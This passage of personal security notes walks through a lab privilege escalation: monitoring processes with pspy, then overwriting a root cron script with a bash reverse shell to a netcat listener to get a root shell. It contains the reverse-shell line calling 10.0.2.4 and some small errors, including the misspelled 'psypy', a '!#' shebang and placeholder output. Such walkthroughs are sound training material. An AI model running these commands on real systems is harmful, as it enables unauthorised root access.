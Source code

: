 [psypy](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/actions-on-objective/psypy.md) is a tool developed by DominicBreuker on GitHub. It allows us to monitor linux processes _without root permissions_ w/ live updates. Other linux tools like `top`, `lsof`, and `ps aux` can also be used.

##### Usage

To use psypy as Grimmie we need to get it on the target machine. To do this, first we need to download and install it from the [psypy repo](https://github.com/DominicBreuker/pspy) on our own machine, then serve it using [HTTP](https://github.com/TrshPuppy/obsidian-notes/blob/main/networking/protocols/HTTP.md).

Once it's served, we can `cd` into `/tmp` where `backup.zip` is and use `wget` to download it on the target machine. Now, change the permissions of `pspy64` so we can execute it using `chmod +x pspy64`. Now we can run it:

```bash
./psypy64
#####
## PLACEHOLDER
##
##
##
```

Scanning the output, we can see that `backup.sh` is being ran every minute.

### 2nd RevShell

Now that we've verified that `backup.sh` is being executed, we can manipulate that to get another shell, but this time _with root permissions and access_.

#### Our bash script:

A simple script to achieve a shell using [bash](https://github.com/TrshPuppy/obsidian-notes/blob/main/coding/languages/bash.md) is the following:

```bash
!#/bin/bash

bash -i >& /dev/tcp/10.0.2.4/44445 0>&1
```

Use `nano` to edit `backup.sh`, get rid of the original code and replace it with this shell code. _Before saving the file_ make sure you have another instance of [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/netcat.md) up and listening to the correct port.

Once you save the file, it should get executed w/i the next 2 minutes, and on your listener you should see:

```bash
nc -lvnp 44445
listening on [any] 44445 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 34634
bash: cannot set terminal process group (18009): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#          # <-----------
```
